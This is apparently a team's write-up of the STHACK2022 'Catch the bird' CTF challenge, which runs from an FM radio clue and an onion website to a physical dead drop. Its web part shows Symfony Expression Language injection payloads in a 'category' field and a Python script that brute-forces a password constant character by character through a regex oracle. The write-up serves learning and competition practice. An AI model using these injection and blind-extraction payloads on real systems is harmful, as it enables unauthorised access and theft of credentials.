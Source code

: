 ```yaml
---
layout: post
title: STHACK2022 - Catch the bird, a trip from web to IRL
---
```


* Challenge author: ajani
* Category: `web`, `physical`

The challenge started with the following Post Card

![Post Card]({{ site.baseurl }}/images/STHACK2022/sthack2022_post-card.png)

<!--more-->

We also had the following scenario:

{% highlight php%}
This time I think Archer have got himself involved in something far to big for him.

Last time I've seen him he seemed agitated, anxious, he kept telling about that man he was following, how he felt it had been made, and something about Malta and some bird statuette. That was 9 days ago and I haven't heard from Miles since then.

It seems strange, but it wouldn't be the first time he didn't give news for days until he woke up to some unknown county of this damn country, with an empty bottle of the worst whisky and a skull full of the finest hangover. The guy love the bottle to much, and she didn't returned him so well. Yet, I could tell something was off, it didn't felt right.

That was until this morning, when a post card arrived at the bureau mailbox. Postcard At first sight it's just a simple postcard to tell me he need to take some vacations right ? But here's the thing, Miles never lived at the 101.10 Marconi street...

If Archer ask for my help then it must really be serious. I need to find where this statuette is, and judging by the postcard I must hurry, 'cause whomever have the damn bird, it seems like he want to sell it.
{% endhighlight %}

We quickly realized we needed to listen on the **Radio Frequency** 101.1Mhz inside the "Hotel de Ville". This was achieved using a Xiaomi Android Application, we recorded everything broadcasted on the frequency in this file:

* [Recording FM @ 101.1 MHz]({{ site.baseurl }}/images/STHACK2022/FM_101.1 MHz_20220520212911.mp3)

We can hear the well known military code, which gave us this .onion website:
http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80, we accessed it using Tor.

After some time exploring the website we discovered "a feature" to send a mail with an extract of the current code when an error occured on the website.

We found two ways to trigger an error:
- trying to login using a wrong password: `LoginController.php`
- while injecting and breaking context inside the shop part of the website: `Lexer.php`

The team spent too much time trying to find a Server Side Template Injection since it was using a `twig` template in line 21@LoginController.php.

![Dump code controller]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_controller.png)
![Dump code lexer]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_lexer.png)

However while we were fuzzing the `category` field, we discovered the '`~`' was working to concatenate two strings in Twig and tried the following requests:

| Query | Output | Indicator |
| ---- | ---- | ---- |
| category=category == 'forgery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery'~'7'*7 | Don't display but do not throw an error| False |

We had an oracle !! However we didn't manage to find an interesting primitive allowing us to execute commands.
So we used our favorite tool "Burp Suite Intruder" and fuzzed with the top 100 functions in PHP and Symfony and some weird behaviors started to appear.
The function `constant` was recognised by the parsing engine, then it clicked, the `Lexer.php` file was located in a folder called `expression language`. We tried to confirm the function using several global constants.

{% highlight py%}
category=category == 'forg'~'ery'~'7'*7
category=category == 'forg'~'ery'~constant("DB_USER")
category=category == 'forg'~'ery'~constant("INFO_ALL")
category=category == 'forg'~'ery'~constant("true")
category=category == 'forg'~'ery'~constant("null")
{% endhighlight %}

However it's only giving us the information about the existence of a constant it would be better to extract their value. Especially the value of the constant `self::PASSWORD`@LoginController.php.

First, we attempt to access the constant located in another file on the server. Thankfully the server errors were quite verbose and give us half of the payload :)

{% highlight py%}
Error : Attempted to load class "LoginController" from namespace "\App\\Controller\".
Did you forget a "use" statement for "App\Controller\LoginController"?
{% endhighlight %}

The trick here was to add several backslash `\\\\`

{% highlight py%}
'forg'~'ery'~constant("\\\\App\\\\Controller\\\\LoginController::PASSWORD")
{% endhighlight %}

Now that we confirmed the access to the `PASSWORD` constant, we tried to read the characters one-by-one like any array with `array[0] == 'A'`. But the pain was only starting, Expression Language constant cannot be accessed like an array... We finally found an alternative using **Regular Expressions** and created a small script which was ... too slow, remember we are using Tor to connect to the .onion website and the shared network on site was a bit laggy. 

{% highlight py%}
import requests

flag = "Ybhr"
charset = "azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN1234567890"

for c in charset:
    burp0_url = "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80/"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion", "Connection": "close", "Referer": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion/", "Upgrade-Insecure-Requests": "1"}
    burp0_data = {"category": "constant(\"\\\\App\\\\Controller\\\\LoginController::PASSWORD\") matches \"/^"+flag+"\" ", "& category ": "= 'forgery'"}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(c, len(r.text))
{% endhighlight %}

Once again we turned to our Intruder and fuzzed with the charset `a-zA-Z0-9`, with the following payload: `category=constant("\\App\\Controller\\LoginController::PASSWORD") matches "/^Y[FUZZED_CHAR_ADDED_HERE]/" && category == 'forgery'` and we got the following quite quickly: `Ybhr5vmjJD` after switching to our 4G network for a more reliable access.

Now we can access the Admin Panel and manage the products. Only one product (deaddrop) as available for purchase. 

![Web Login]({{ site.baseurl }}/images/STHACK2022/sthack2022_deaddrop-login.png)

> Dead Drops is an anonymous, offline, peer to peer file-sharing network in public space. Anyone can access a Dead Drop and everyone may install a Dead Drop in their neighborhood/city. A Dead Drop must be public accessible. - The Dead Drops Manifesto

The product coordinates were really close to us and the challenge was listed in the categories `web` and `physical`. We went there with a laptop and other tools like a lockpick set. Obviously the deaddrop wasn't embbeded into the "Hotel de Ville"'s wall, it was cemented to a pad lock ;)

![]({{ site.baseurl }}/images/STHACK2022/sthack2022_gpslocate.png)

Some interesting encrypted files were stored on the deaddrop and we had the key to decrypt them using the command `openssl aes-256-cbc -d -in whisky.txt.aes256cbc -out secrets2.txt.new`

![AES secrets]({{ site.baseurl }}/images/STHACK2022/sthack2022_aes_key.png)

And now for the final step: a new onion URL from one of the decrypted file (maltapyzyfnwvgkl4se7tlhlrohule77cgnaguy2nouxyvosovjldbyd.onion). It seems to be an aunction website, but the site is not yet opened. The opening is scheduled for the 23rd May but something smells fishy, the Javascript was heavily obfuscated, and we are still waiting for our flag. 

{% highlight js%}
// Example of Pentester's nightmare
function _0x18c8(_0x46078f,_0xd7ff98){var _0x33e42d=_0x3b53();return _0x18c8=function(_0x164e09,_0x470955){_0x164e09=_0x164e09-(0x1063+-0x19*0x187+0x16b7);var _0xf46362=_0x33e42d[_0x164e09];return _0xf46362;},_0x18c8(_0x46078f,_0xd7ff98);}function _0x3b53(){var _0x574953=['aW9uYWwgbm','4JDouuU','fEdgK'[...]
{% endhighlight %}

Let's discuss methodology to apprehend this problem:

![JS deobf]({{ site.baseurl }}/images/STHACK2022/sthack2022_deobf.jpg)

Having spent wayyyy too much time on this challenge, we used a quite radical approach and changed our VM internal date slowly to arrived at the opening date: `date -s "2021-03-23 16:58:22"` and then we got our flag.

Overall the challenge was nice and interesting to resolve with my teammates. Having a bit of physical without resorting to use a full arsenal of HackRF, Proxmark or a crowbar was quite refreshing :)

![Scoreboard]({{ site.baseurl }}/images/STHACK2022/sthack2022_scoreboard.jpg)